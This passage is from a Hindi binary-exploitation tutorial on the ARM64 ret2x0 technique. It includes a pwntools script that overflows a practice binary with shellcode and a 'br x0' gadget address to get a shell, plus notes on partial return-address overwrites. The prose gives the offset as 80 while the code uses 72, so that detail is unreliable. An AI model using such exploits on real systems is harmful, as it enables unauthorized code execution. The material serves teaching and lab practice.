 <figure><img src="../../.gitbook/assets/image (1225).png" alt="" width="563"><figcaption></figcaption></figure>

यह भी संभव है कि गैजेट **`br x0`** को **`do_stuff`** फ़ंक्शन में ढूंढा जा सकता है:

<figure><img src="../../.gitbook/assets/image (1226).png" alt="" width="563"><figcaption></figcaption></figure>

हम उस गैजेट का उपयोग करेंगे ताकि हम उस पर जाएं क्योंकि बाइनरी **PIE के साथ कंपाइल नहीं है।** पैटर्न का उपयोग करके देखा जा सकता है कि **बफर ओवरफ्लो का ऑफसेट 80** है, इसलिए एक्स्प्लॉइट होगा:
```python
from pwn import *

p = process('./ret2x0')
elf = context.binary = ELF('./ret2x0')

stack_offset = 72
shellcode = asm(shellcraft.sh())
br_x0 = p64(0x4006a0) # Addr of: br x0;
payload = shellcode + b"A" * (stack_offset - len(shellcode)) + br_x0

p.sendline(payload)
p.interactive()
```
{% hint style="warning" %}
यदि `fgets` की जगह कुछ ऐसा **`read`** का उपयोग होता, तो PIE को भी छलकर सकता था केवल **वापसी के पते के अंतिम 2 बाइट को ओवरराइट करके** `br x0;` निर्देश को वापस लौटने के लिए पूरे पते को जानने की आवश्यकता नहीं होती।\
`fgets` के साथ यह काम नहीं करता क्योंकि यह **अंत में नल (0x00) बाइट जोड़ता है**।